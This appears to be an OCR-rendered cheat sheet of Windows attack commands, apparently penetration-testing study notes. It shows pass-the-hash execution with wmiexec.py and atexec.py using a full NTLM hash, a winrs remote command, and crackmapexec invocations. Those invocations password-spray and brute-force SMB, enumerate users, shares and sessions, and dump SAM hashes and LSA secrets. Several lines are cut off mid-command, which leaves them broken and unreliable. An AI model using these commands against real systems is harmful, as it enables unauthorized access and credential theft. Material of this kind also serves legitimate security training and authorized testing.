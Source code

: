 wmiexec.py -hashes
aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 \<dom

#we passed full hash here

atexec.py -hashes
aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 \<doma

#we passed full hash here

## winrs

winrs -r:\<computername\> -u:\<user\> -p:\<password\> \"command\"

\# run this and check whether the user has access on the machine, if you
have access then

## crackmapexec

If stuck make use of Wiki

crackmapexec {smb/winrm/mssql/ldap/ftp/ssh/rdp} #supported services

crackmapexec smb 10.10.10.172 -u users -p users \--continue-on-success

crackmapexec smb 10.10.120.X -u users.txt -p Password123 \--local-auth
\--continue-on-success

crackmapexec smb 10.10.120.X -u users.txt -p Passwors123 -d \" \"

crackmapexec smb \<Rhost/range\> -u user.txt -p password.txt
\--continue-on-success \# Brutef

crackmapexec smb \<Rhost/range\> -u user.txt -p password.txt
\--continue-on-success \| grep \'

crackmapexec smb \<Rhost/range\> -u user.txt -p \'password\'
\--continue-on-success #Password

crackmapexec smb \<Rhost/range\> -u \'user\' -p \'password\' \--shares
#lists all shares, provid

crackmapexec smb \<Rhost/range\> -u \'user\' -p \'password\' \--disks

crackmapexec smb \<DC-IP\> -u \'user\' -p \'password\' \--users #we need
to provide DC ip

crackmapexec smb \<Rhost/range\> -u \'user\' -p \'password\' \--sessions
#active logon sessions

crackmapexec smb \<Rhost/range\> -u \'user\' -p \'password\' \--pass-pol
#dumps password policy

crackmapexec smb \<Rhost/range\> -u \'user\' -p \'password\' \--sam #SAM
hashes

crackmapexec smb \<Rhost/range\> -u \'user\' -p \'password\' \--lsa
#dumping lsa secrets
